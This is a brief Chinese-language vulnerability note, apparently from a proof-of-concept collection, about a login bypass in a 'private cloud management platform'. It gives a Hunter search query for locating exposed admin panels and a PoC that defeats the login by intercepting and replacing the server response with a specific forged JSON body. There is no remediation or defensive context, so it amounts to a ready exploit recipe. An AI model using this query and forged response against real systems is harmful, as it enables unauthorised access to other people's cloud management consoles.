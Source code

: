 # 私有云管理平台存在登录绕过漏洞

私有云管理平台存在登录绕过漏洞

## hunter

```yaml
web.title="私有云管理后台"
```

## poc

登陆界面抓包改返回响应的数据

```java
{"code":1000,"msg":"BscDYP2u0qLelgSB6XT1AxbULeN55ZayHYnmPEDnib4="}
```

![image-20240821093116155](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408210931202.png)

![image-20240821092633292](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408210926351.png)